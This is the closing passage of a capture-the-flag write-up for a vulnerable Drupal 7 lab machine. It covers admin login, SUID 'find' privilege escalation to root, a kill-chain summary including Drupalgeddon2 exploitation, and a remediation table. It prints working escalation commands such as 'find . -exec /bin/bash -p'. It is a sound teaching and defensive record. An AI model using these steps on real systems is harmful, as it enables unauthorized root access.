

---

## 9. Flag 3 — Drupal Admin Access

I logged into Drupal via the login block on the **homepage** (I didn't need a separate `/user/login` page):

- **URL:** `http://10.0.2.21/`
- **Credentials:** `admin` / `newpass123`

Login was successful → I had full administrative control of the CMS. I obtained **flag3** from the authenticated admin interface.

> **flag3:** `Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.`

*My read:* flag3 points toward **special permissions (SUID)** and the **`find`** command — i.e. the privilege-escalation path.





---

## 10. Privilege Escalation — SUID `find`

### 10.1 Enumerating SUID binaries

```bash
find / -perm -4000 -type f 2>/dev/null
```

`/usr/bin/find` appeared in the results with the **SUID bit set** — meaning it executes with the privileges of its owner (**root**). Since `find` can run arbitrary commands via `-exec`, I had a direct path to root.



### 10.2 Exploiting it

```bash
find . -exec /bin/bash -p \; -quit
```

The `-p` flag preserves the elevated (root) privileges in the spawned shell.

```bash
whoami     # root
id
```



> **I had root.**

---

## 11. Flags 4 & Final

```bash
cat /home/flag4/flag4.txt
cat /root/thefinalflag.txt
```

> **flag4:** `Can you use this same method to find or access the flag in root? Probably. But perhaps it's not that easy. Or maybe it is?`
> *(flag4 reiterates that root is the real goal — I could read it even before full privesc, since /home/flag4 is readable.)*

> **final flag:** `Well done!!!! Hopefully you've enjoyed this and learned some new skills. You can let me know what you thought of this little journey by contacting me via Twitter - @DCAU7`
> *(Located in `/root/` — I could only read it after the `find` privilege escalation.)*





---

## 12. Full Kill Chain Summary

```
netdiscover / nmap
      │  (identify Drupal 7 @ 10.0.2.21)
      ▼
Drupalgeddon2 (CVE-2018-7600) via Metasploit
      │  (unauthenticated RCE → Meterpreter → www-data shell)
      ▼
flag1  →  settings.php (flag2 + plaintext DB creds)
      ▼
MySQL (loopback-only, reachable post-foothold)
      │  (overwrite admin $S$ hash via password-hash.sh)
      ▼
Drupal admin login  →  flag3
      ▼
SUID /usr/bin/find  →  find -exec /bin/bash -p  →  ROOT
      ▼
flag4  +  thefinalflag
```

---

## 13. Findings & Remediation

| # | Finding | Severity | Remediation |
|---|---|---|---|
| 1 | Outdated Drupal 7 vulnerable to Drupalgeddon2 (CVE-2018-7600) RCE | **Critical** | Update Drupal to a patched release (≥ 7.58); apply security patches promptly. |
| 2 | Database credentials stored in plaintext in `settings.php` | High | Unavoidable for Drupal config, but restrict file permissions (640, owned by web user) and OS-level access; isolate the DB account's privileges. |
| 3 | Outdated Apache 2.2.22 / Debian 7 (Wheezy, EOL) | High | Upgrade OS and web server to supported, patched versions. |
| 4 | SUID bit set on `/usr/bin/find` | **Critical** | Remove the SUID bit (`chmod u-s /usr/bin/find`); audit all SUID binaries; apply least privilege. |
| 5 | Reused credentials / weak admin password handling | Medium | Enforce strong, unique passwords; avoid credential reuse across DB/app/SSH. |
| 6 | Verbose service/version banners exposed | Low | Suppress version disclosure in Apache (`ServerTokens Prod`) and Drupal generator meta tag. |

---

## 14. Tools I Used

- `netdiscover` — host discovery
- `nmap` — port/service/OS enumeration
- `curl` — manual web enumeration
- `searchsploit` — local exploit database lookup
- `metasploit` (`drupal_drupalgeddon2`) — initial access
- `mysql` — database interaction
- `php` (`scripts/password-hash.sh`) — Drupal hash generation
- native Linux utilities (`find`, `netstat`) — enumeration & privilege escalation

---

*End of report.*
